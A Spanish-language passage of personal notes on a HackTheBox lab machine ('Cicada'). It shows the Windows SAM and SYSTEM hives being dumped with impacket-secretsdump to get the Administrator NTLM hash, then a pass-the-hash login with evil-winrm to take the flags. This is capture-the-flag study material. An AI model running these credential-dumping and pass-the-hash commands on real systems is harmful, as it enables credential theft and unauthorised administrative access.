 Con el comando ``download sam`` y ``download system`` voy a descargar los archivos a mi maquina

![[Return21.png]]

## Con [[impacket-secretsdump]] vamos a abrir los archivos y que nos dumpee la informacion

```shell
impacket-secretsdump -sam sam -system system LOCAL
```

![[Cicada21.png]]

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```


Nos da el hash *2b87e7c93a3e8a0ea4a581937016f341*


## Conexion a la maquina con [[evil-winrm]]


```
evil-winrm -i 10.10.11.35 -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341' -P 5985
```


![[Cicada22.png]]
Ya somos administrator y podemos catear las flags
![[Cicada23.png]]
![[Cicada26.png]]

------
# Notas

Cuando encuentro un dominio, no solo sirve para paginas web, tambien sirve para todo lo que es AD

Tenemos el mail support@cicada.htb que no lo usamos para nada

Regedit es el nombre del Editor del Registro de Windows, una herramienta del sistema operativo que permite a los usuarios ver, editar y administrar la base de datos central de configuraciones de Windows

-------
# Creditos

[Writeup de chryb3r](https://medium.com/@chryb3r/cicada-hackthebox-writeup-44ce0910410b)
Writeup Oficial HackTheBox